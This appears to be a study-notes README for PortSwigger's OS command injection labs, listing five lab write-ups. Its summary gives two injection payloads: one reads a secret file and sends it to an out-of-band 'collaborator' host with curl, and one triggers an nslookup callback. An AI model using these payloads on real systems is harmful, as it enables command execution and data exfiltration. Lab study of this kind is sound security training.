 # [OS command injection](https://portswigger.net/web-security/os-command-injection)

## Labs

- apprentice:
  - [1. OS command injection, simple case](./lab/1.%20OS%20command%20injection%2C%20simple%20case.md)

- practitioner
  - [2. Blind OS command injection with time delays](./lab/2.%20Blind%20OS%20command%20injection%20with%20time%20delays.md)
  - [3. Blind OS command injection with output redirection](./lab/3.%20Blind%20OS%20command%20injection%20with%20output%20redirection.md)
  - [4. Blind OS command injection with out-of-band interaction](./lab/4.%20Blind%20OS%20command%20injection%20with%20out-of-band%20interaction.md)
  - [5. Blind OS command injection with out-of-band data exfiltration](./lab/5.%20Blind%20OS%20command%20injection%20with%20out-of-band%20data%20exfiltration.md)

## Summary

payload:

```text
||curl+collaborator+-d+`cat+/home/carlos/secret`||
```

```text
||nslookup+collaborator||
```
